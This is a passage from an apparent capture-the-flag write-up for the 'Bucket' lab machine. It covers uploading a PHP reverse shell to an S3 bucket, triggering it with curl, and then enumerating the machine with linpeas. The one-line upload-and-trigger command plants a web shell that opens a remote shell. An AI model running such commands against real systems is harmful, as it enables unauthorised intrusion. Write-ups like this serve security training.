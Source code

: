 To get a reverse shell, replaced the `exploit.php` by [pentestmonkey/php-reverse-shell (github.com)](https://github.com/pentestmonkey/php-reverse-shell) that after modifying it starts automatically to the listener previously defined, without the need of parameters in the payload, which resulted in success after a few attempts.

```bash
aws s3 --endpoint-url http://s3.bucket.htb --profile bucket.htb cp ./exploit.php s3://adserver/ && curl -L http://bucket.htb/exploit.php
```

## User flag

Now with a reverse shell ot the machine, ran `linpeas.sh` to make it easier the enumeration, where the following points were identified:

- Local user `roy` has console access and, enumerating his home directory found the file `user.txt` and folder `project`, access to both denied using `www-data` credentials.

  - This user has no running processes that could allow us to hijack them so we would need to obtain his credentials to proceed with this machine.

- Other services are running in this box, listening in ports 4566, 8000 and 38443, which could be used to escalate privileges later.

  ```plaintext
  [+] Active Ports                                                                                         
  [i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports                               
  Active Internet connections (servers and established)                                                     
  Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name         
  tcp        0      0 127.0.0.1:38443         0.0.0.0:*               LISTEN      -                        
  tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                         
  tcp        0      0 127.0.0.1:4566          0.0.0.0:*               LISTEN      -                         
  tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                         
  tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                     
  ```

- This box has also containers in execution (`ctr`, `runc`), probably from localstack, being also a possibility when checking for privesc paths.

- There's a directory `/var/www/bucket-app` that could be used by one of the apps previously identified, but also don't allows us to read it with `www-data` credentials.

From the points discussed, what called more attention to me was the other services, so started by checking apache configurations (`/etc/apache2/sites-enabled`) where we had the file `000-default.conf` listed below, but nothing about 38443, but was able to get insights about 4566 and 8000, which published the content from `/var/www/bucket-app` folder.
